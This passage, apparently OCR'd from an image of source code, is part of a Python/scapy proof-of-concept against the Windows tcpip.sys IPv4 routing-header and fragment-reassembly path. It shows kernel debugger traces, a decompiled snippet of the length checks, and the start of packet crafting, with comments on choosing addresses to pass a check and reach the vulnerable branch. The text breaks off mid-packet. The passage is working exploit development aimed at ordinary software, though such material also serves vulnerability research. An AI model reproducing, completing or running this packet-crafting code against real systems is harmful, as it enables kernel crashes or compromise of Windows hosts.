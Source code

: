```python
    fffff804`453c6f8f 0f85de040000    jne     tcpip!Ipv4pReceiveRoutingHeader+0x663 (fffff804`453c7473)
    kd>
    tcpip!Ipv4pReceiveRoutingHeader+0x185:
    fffff804`453c6f95 498bcd          mov     rcx,r13
    kd>
    Breakpoint 3 hit
    tcpip!Ipv4pReceiveRoutingHeader+0x188:
    fffff804`453c6f98 e8e7dff8ff      call    tcpip!Ipv4UnicastAddressScope (fffff804`45354f84)
    kd> dqs @rcx l1
    ffffb90e`85b78220  ffffb90e`85b782c0

    Call-stack (skip first hit):
      kd> kc
      # Call Site
      00 tcpip!Ipv4pReceiveRoutingHeader
      01 tcpip!IppReceiveHeaderBatch
      02 tcpip!Ipv4pReassembleDatagram
      03 tcpip!Ipv4pReceiveFragment
      04 tcpip!Ipv4pReceiveFragmentList
      05 tcpip!IppReceiveHeaderBatch
      06 tcpip!IppFlcReceivePacketsCore
      07 tcpip!IpFlcReceivePackets
      08 tcpip!FlpReceiveNonPreValidatedNetBufferListChain
      09 tcpip!FlReceiveNetBufferListChainCalloutRoutine
      0a nt!KeExpandKernelStackAndCalloutInternal
      0b nt!KeExpandKernelStackAndCalloutEx
      0c tcpip!FlReceiveNetBufferListChain

    Snippet:
      __int16 __fastcall Ipv4pReceiveRoutingHeader(Packet_t *Packet)
      {
        // ...
        // kd> db @rax
        // ffffdc07`ff209170  ff ff 04 00 61 62 63 00-54 24 30 48 89 14 01 48  ....abc.T$0H...H
        RoutingHeaderFirst = NdisGetDataBuffer(FirstNetBuffer, Packet->RoutingHeaderOptionLength, &v50[0].qw2, 1u, 0);
        NetioAdvanceNetBufferList(NetBufferList, v8);
        OptionLenFirst = RoutingHeaderFirst[1];
        LenghtOptionFirstMinusOne = (unsigned int)(unsigned __int8)RoutingHeaderFirst[2] - 1;
        RoutingOptionOffset = LOBYTE(Packet->RoutingOptionOffset);
        if (OptionLenFirst < 7u ||
          LenghtOptionFirstMinusOne > OptionLenFirst - sizeof(IN_ADDR))
        {
          // ...
          goto Bail_0;
        }
        // ...
    '''
    id = random.randint(0, 0xff)
    # dst_ip isn't a broadcast IP because otherwise we fail a check in
    # Ipv4pReceiveRoutingHeader; if we don't take the below branch
    # we don't hit the interesting bits later:
    #   if (Packet->CurrentDestinationType == NlatUnicast) {
    #     v12 = &RoutingHeaderFirst[LenghtOptionFirstMinusOne];
    dst_ip = '192.168.2.137'
    src_ip = '120.120.120.0'
    # UDP
    nh = 17
    content = bytes(UDP(sport = 31337, dport = 31338) / '1')
    one = Ether() \
        / IP(
            src = src_ip,
```